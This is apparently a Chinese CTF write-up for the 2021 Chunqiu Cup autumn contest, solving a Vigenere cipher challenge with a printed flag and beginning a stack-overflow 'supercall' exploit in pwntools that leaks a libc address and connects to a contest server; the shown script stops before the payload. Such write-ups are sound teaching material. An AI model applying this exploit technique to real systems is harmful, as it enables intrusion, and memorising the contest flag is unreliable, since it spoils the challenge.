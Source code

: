 ﻿title: 2021年春秋杯网络安全联赛秋季赛勇者山峰-WP
categories: [CTF]
tags: [wp]

---
周末抽空看下了，感觉难度差异太大，涝的涝死旱的旱死，太菜了.( ┬o┬)...

## Crypto

### Vigenere

在https://www.boxentriq.com/code-breaking/vigenere-cipher 网站爆破得到为key:asterism

![image-20211127100844149](image-20211127100844149.png)

解密得到falg。

![image-20211127162758654](image-20211127162758654.png)

flag为：`flag{53d613fc-6c5c-4dd6-b3ce-8bc867c6f648}`

## PWN

### supercall

简单栈溢出，利用[LibcSearcher](https://github.com/lexsd6/LibcSearcher_plus)通过题目泄露出的`_IO_2_1_stdin_`的真实地址找到 libc 基地址，用one_gatget  来get shell。

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   exp.py
@Time    :   2021/11/27 13:39:07
@Author  :   lexsd6
'''

from pwn import * 
from libcfind import *

local_mote=0
elf='./supercall'
e=ELF(elf)
#context.log_level = 'debug'
context.arch=e.arch
ip_port=['123.57.207.81',16985]

debug=lambda : gdb.attach(p) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])

#0x0000000000026796 : pop rdi ; ret
stack_addr=int(p.recvuntil(',')[:-1],16)
stdin_addr=int(p.recv(),16)
log.info(hex(stack_addr))
log.info(hex(stdin_addr))

x=finder('_IO_2_1_stdin_',stdin_addr,num=9)
#[-] 9: local-46e93283ff53133360e02a73ae5b5ba375410855 (source from:/mnt/d/filewsl/supercall/libc-2.27.so)
```